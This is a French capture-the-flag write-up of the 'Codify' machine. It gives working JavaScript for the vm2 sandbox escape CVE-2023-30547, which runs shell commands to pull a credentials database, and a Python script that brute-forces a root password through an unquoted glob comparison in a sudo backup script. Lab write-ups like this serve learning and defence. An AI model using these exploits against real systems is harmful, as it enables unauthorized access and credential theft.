







# Write-Up Codify

## Nmap

Trois services nous sont accessibles :
- 22 : serveur SSH OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
- 80 : Apache httpd 2.4.52
- 3000 : Node.js Express framework
OpenSSH et Apache semblent tous les deux à jour. Le 3ème port présent nous indique que l'application web est écrite en NodeJS.

## FootHold
L'application Web nous permet de tester notre code directement dans une VM et d'en afficher la sortie. Pour cela il repose sur la librairie vm2. Cette librairie a récemment eu une CVE. La `CVE-2023-30547` affectant les versions 3.9.19 et antérieures. Il est donc possible d'exécuter directement du code sur la machine. Suite à cela et après plusieurs essais, il est possible de trouver et d'extraire une base de données à cet endroit : `/var/www/contact/tickets.db`. Pour cela la rédaction d'un petit code est nécessaire :
```javascript
const {VM} = require("vm2");
const vm = new VM();

const code = `
err = {};
const handler = {
    getPrototypeOf(target) {
        (function stack() {
            new Error().stack;
            stack();
        })();
    }
};
  
const proxiedErr = new Proxy(err, handler);
try {
    throw proxiedErr;
} catch ({constructor: c}) {
    c.constructor('return process')().mainModule.require('child_process').execSync("base64 ../../var/www/contact/tickets.db");
}
`

console.log(vm.run(code));
```
Afin de se prémunir des caractères non affichables je décide de l'exporter en base64. Il est ensuite possible de décoder le base64 en local et de lire la base. On s'aperçoit de la présence d'une table users avec une seule entrée.  


La prochaine étape consiste à brute-force le mot de passe de l'utilisateur joshua à l'aide de hashcat pour se faire :  


Et le résultat :   


Il est possible d'utiliser le password de joshua pour se connecter en SSH sur la machine.


## PrivEsc
Pour la partie PrivEsc, joshua a le privilège d'exécuter un script en root :


Le script en question :
```bash
#!/bin/bash
DB_USER="root"
DB_PASS=$(/usr/bin/cat /root/.creds)
BACKUP_DIR="/var/backups/mysql"

read -s -p "Enter MySQL password for $DB_USER: " USER_PASS
/usr/bin/echo

if [[ $DB_PASS == $USER_PASS ]]; then
        /usr/bin/echo "Password confirmed!"
else
        /usr/bin/echo "Password confirmation failed!"
        exit 1
fi

/usr/bin/mkdir -p "$BACKUP_DIR"

databases=$(/usr/bin/mysql -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" -e "SHOW DATABASES;" | /usr/bin/grep -Ev "(Database|information_schema|performance_schema)")

for db in $databases; do
    /usr/bin/echo "Backing up database: $db"
    /usr/bin/mysqldump --force -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" "$db" | /usr/bin/gzip > "$BACKUP_DIR/$db.sql.gz"
done

/usr/bin/echo "All databases backed up successfully!"
/usr/bin/echo "Changing the permissions"
/usr/bin/chown root:sys-adm "$BACKUP_DIR"
/usr/bin/chmod 774 -R "$BACKUP_DIR"
/usr/bin/echo 'Done!'
```
Le script permet de réaliser des backups des différentes bases de données. La vulnérabilité ici est présente au niveau de la comparaison `[[ $DB_PASS == $USER_PASS ]]`. les variables n'étant pas entre des doubles quotes `"`, il est possible d'utiliser le glob matching pour faire corresponde les mots de passe. Il est donc possible de brute-force le mot de passe caractère par caractère avec un script.

```python
import string
import subprocess

wl = string.ascii_letters + string.digits
cont=""

while True:
    for i in wl:
        password = cont + i + "*"
        proc = subprocess.Popen(
            ["sudo", "/opt/scripts/mysql-backup.sh"],
            stdin=subprocess.PIPE,
            stdout=subprocess.PIPE,
            stderr=subprocess.PIPE,
            text=True
            )

        stdout, stderr = proc.communicate(input=password)

        if "Done!" in stdout:
            cont += i
            print(cont)
```

Enfin on peut utiliser ce mot de passe pour se connecter en tant que root sur la machine.
